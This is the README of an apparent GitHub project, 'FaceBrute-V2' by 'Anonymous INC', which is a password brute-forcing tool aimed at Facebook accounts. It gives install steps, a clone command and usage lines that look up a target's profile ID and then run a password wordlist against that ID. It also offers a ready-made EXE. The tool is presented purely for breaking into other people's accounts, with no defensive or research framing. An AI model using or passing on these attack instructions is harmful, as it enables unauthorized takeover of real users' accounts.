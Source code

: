 # FaceBrute-V2
== A N O N Y M O U S  I N C ==

## Get Started
Install python executable installer first
```
> https://www.python.org/downloads/release/python-373/
```

## Clone Repo
```
> git clone https://github.com/IyoRTML/FaceBrute-V2.git
```

## Run in Command Line
```
> pip install requests
> pip install mechanize
> python main.py -g https://www.facebook.com/Username
> python main.py -t [This Target ID] -w passwords.txt
```

## Run in FaceBrute.EXE
```
> Double click FaceBrute.exe
```

![Anonymous INC](https://raw.githubusercontent.com/IyoRTML/FaceBrute-V2/main/img/facebruteanonymousinc.jpg)
